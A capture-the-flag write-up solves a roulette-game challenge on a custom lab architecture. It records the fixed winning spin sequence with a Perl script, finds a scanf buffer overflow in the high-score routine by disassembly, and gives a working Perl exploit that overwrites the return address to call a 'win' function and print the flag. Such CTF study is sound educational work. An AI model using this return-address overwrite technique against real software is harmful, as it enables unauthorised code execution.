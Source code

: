 # Binary exploit 2

We're given a [Femtium](femtium-notes.md) binary, that implements a roulette
style game, but with a [fixed random seed](https://xkcd.com/221/), so the spins
are going to be the same with every invocation of the game.

First of all, we can write a program to play the game to obtain the fixed
sequence of winning spins, which will allow us to get a high score.

Rather than trying to build perl for Fenix, I set up a port forward on the host
VM, and a netcat listener on Fenix, so I could interact with the binary over
the network.

```
root@sphinx:/# sysctl net.ipv4.conf.all.forwarding=1
root@sphinx:/# iptables -t nat -A PREROUTING  -i enp0s3 -p tcp --dport 1234 -j DNAT --to-destination 10.42.0.2
root@sphinx:/# iptables -t nat -A POSTROUTING -o fenix                      -j SNAT --to-source      10.42.0.1

johnny@sphinx # nc -l -p 1234 -e ./binexp2
```

I wrote the following perl script to record the sequence of winning spins:

```perl
#!/usr/bin/perl

use IO::Socket::INET;

my $S = new IO::Socket::INET(PeerAddr => "10.0.0.90:1234") or die("$!\n");

my @seq = ();
my @new = ();

while (defined($line = $S->getline()) && scalar(@new) <= (207-50)) {
	print($line);
	if ($line =~ /^3> Exit/) {
		$S->printf("1 %d\r\n", shift(@seq) // 0);
	}
	elsif ($line =~ /^The ball landed on \.\.\. (\d+) \.\.\./) {
		push(@new, $1);
	}

}

print("my \@seq = (", join(", ", @new), ");\n");
```

With every invocation, it records as much of the sequence as it can, up to a
maximum of 157, since that's the amount of correct guesses we need from the
beginning in order to get a high score. The first time it's run, it knows
nothing about the winning sequence, and always guesses 0. Since we start with a
balance of $50 and either gain or lose $1 with every spin, the first round will
play slightly more than 50 times (because some times the fixed 0 guess will be
correct), and it will have learned what those outcomes are. At the end, it
prints out a new `my @seq = (...)` line that can replace the former one in the
script, and the script can be re-run again to obtain more information.

After a few iterations, the final winning sequence that we'll need is this:

```perl
my @seq = (0, 1, 27, 31, 10, 26, 18, 9, 29, 24, 15, 30, 11, 22, 34, 29, 1, 2, 19, 19, 35, 14, 9, 17, 33, 7, 5, 20, 14, 17, 27, 31, 23, 15, 18, 20, 24, 22, 15, 16, 9, 22, 26, 7, 33, 15, 23, 1, 29, 4, 30, 5, 9, 14, 6, 4, 25, 29, 0, 30, 28, 13, 15, 14, 27, 5, 13, 2, 26, 26, 16, 16, 9, 32, 1, 16, 3, 15, 12, 0, 9, 18, 4, 18, 3, 27, 7, 19, 33, 28, 31, 35, 26, 17, 8, 30, 15, 8, 8, 15, 8, 11, 17, 11, 29, 15, 12, 14, 29, 23, 5, 27, 9, 5, 19, 24, 13, 15, 12, 27, 29, 2, 25, 32, 8, 34, 5, 1, 23, 18, 3, 16, 14, 3, 22, 34, 32, 13, 31, 7, 3, 12, 2, 15, 25, 7, 34, 25, 11, 11, 16, 30, 8, 20, 24, 22, 10, 26);
```

Now, what do we do once we get on the high score list? The program will print
out "You got a new highscore!" and ask for our name for the high score list.
The binary is not stripped, so it's easy to find the various functions in it.
Let's examine the disassembly of the setHighscore function:

```
00402418: 47df00d0  add     sp, sp,zz,-48       ; Prologue
0040241c: 377f002c  stw     ra, [sp+44]         ; Save return address
00402420: 379f0028  stw     fp, [sp+40]         ; Save frame pointer
00402424: 479f0030  add     fp, sp,zz,48        ; Establish new frame pointer

00402428: 83c071a0  movi    t0, 0x0000038d      ; STRING: "You got a new highscore!"
0040242c: 8bc00036  addi    t0, 0x00400000
00402430: 406f0000  mov     a0, t0
00402434: 477f800c  add     ra, ip,zz,12        ; call
00402438: 87209222  movi    at0, 0x00001244     ; ...
0040243c: 8f200000  addi    at0, 0x00000000     ; ...
00402440: 47fff200  jmp     ip+at0              ; printf

00402444: 83c04f20  movi    t0, 0x00000279      ; STRING: "Enter your name:"
00402448: 8bc00036  addi    t0, 0x00400000
0040244c: 307e00e4  stw     a0, [fp-28]
00402450: 406f0000  mov     a0, t0
00402454: 477f800c  add     ra, ip,zz,12	; call
00402458: 87209122  movi    at0, 0x00001224	; ...
0040245c: 8f200000  addi    at0, 0x00000000	; ...
00402460: 47fff200  jmp     ip+at0              ; printf

00402464: 83c017a2  movi    t0, 0x000002f4      ; STRING: "%32s"
00402468: 8bc00036  addi    t0, 0x00400000
0040246c: 409e00e8  add     a1, fp,zz,-24       ; arg 1 = address of string buffer, fp-24
00402470: 307e00e0  stw     a0, [fp-32]
00402474: 406f0000  mov     a0, t0		; arg 0 = address of "%32s"
00402478: 477f800c  add     ra, ip,zz,12        ; call
0040247c: 872092a2  movi    at0, 0x00001254     ; ...
00402480: 8f200000  addi    at0, 0x00000000     ; ...
00402484: 47fff200  jmp     ip+at0              ; scanf

00402488: 307e00dc  stw     a0, [fp-36]         ; Save scanf return value, although it's never used

0040248c: 179f0028  ldw     fp, [sp+40]		; Epilogue
00402490: 177f002c  ldw     ra, [sp+44]
00402494: 47df0030  add     sp, sp,zz,48
00402498: 47fd8000  ret
```

That is a classic buffer overflow. The code calls scanf with an input buffer
that is not big enough to hold the amount of data it may receive. In this case,
the "%32s" input string allows 32 bytes of input, but the let's take a look at
the relevant portion of the stack frame of this function.

During the prologue, the stack pointer is decremented by 48 to make room for
local variables. The return address and frame pointer registers must be
preserved, so they are saved to the stack. This is done at sp+44 and sp+40,
respectively, but it's easier to think in terms of the frame pointer which is
later initialized back to sp+48, or to the same as what sp was when the
function started executing. In other words, the frame pointer is stored to fp-8
and return address to fp-4:

```
fp-4	Saved return address
fp-8	Saved frame pointer
fp-12
fp-16
fp-20
fp-24	Start of scanf string buffer
```

The buffer given to scanf starts at fp-24, but there is only room for 16 bytes
of data in that buffer before an overrun would overwrite first the frame
pointer, then the return address, and then the previous stack frame.

Since we control the input to the name prompt, we can use this to overwrite the
return address. When asked for the player's name, we simply have to supply 16
bytes of dummy name data, followed by the values we want to put into the frame
pointer and return address.

A quick look at the symbol table reveals a `win` function at address 004023a0,
and the disassembly of that function has references to "./binexp2_flag", so
that sounds pretty relevant. The value we choose to overwrite the saved frame
pointer with is not relevant, as we'll never end up returning back to the
previously saved frame anyway. With this in mind, we can write the following
exploit script:

```perl
#!/usr/bin/perl

use IO::Socket::INET;

my $S = new IO::Socket::INET(PeerAddr => "10.0.0.90:1234") or die("$!\n");

my @seq=(
	0, 1, 27, 31, 10, 26, 18, 9, 29, 24, 15, 30, 11, 22, 34, 29, 1, 2, 19,
	19, 35, 14, 9, 17, 33, 7, 5, 20, 14, 17, 27, 31, 23, 15, 18, 20, 24, 22,
	15, 16, 9, 22, 26, 7, 33, 15, 23, 1, 29, 4, 30, 5, 9, 14, 6, 4, 25, 29,
	0, 30, 28, 13, 15, 14, 27, 5, 13, 2, 26, 26, 16, 16, 9, 32, 1, 16, 3,
	15, 12, 0, 9, 18, 4, 18, 3, 27, 7, 19, 33, 28, 31, 35, 26, 17, 8, 30,
	15, 8, 8, 15, 8, 11, 17, 11, 29, 15, 12, 14, 29, 23, 5, 27, 9, 5, 19,
	24, 13, 15, 12, 27, 29, 2, 25, 32, 8, 34, 5, 1, 23, 18, 3, 16, 14, 3,
	22, 34, 32, 13, 31, 7, 3, 12, 2, 15, 25, 7, 34, 25, 11, 11, 16, 30, 8,
	20, 24, 22, 10, 26);

# Play the game
$S->print(join(" ", map { (1, $_) } @seq), "\r\n");

# Deliver exploit
#
#           --- Buffer ---  -FramePointer-  Return Address
#          /              \/              \/              \
$S->print("AAAAAAAAAAAAAAAA\x00\x00\x00\x00\x00\x40\x23\xa0\r\n");

while (defined($line = $S->getline())) {
	print($line) if $line =~ /FE{/;
}
```

Running that script plays the game, overwrites the return address, which causes
the win function to be called, binexp2_flag to be executed, and the flag to be
displayed.


## Flag

Flag: `FE{You_beat_the_C4sin0_and_pwned_it_for_good_measure}`


---
_Peter Tirsek, 2020-01-20_
